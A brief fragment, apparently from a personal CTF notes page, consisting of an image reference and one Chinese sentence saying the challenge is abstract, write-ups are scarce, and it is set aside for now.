

这道题有点抽象，感觉没啥思路，wp也不多，先放着吧
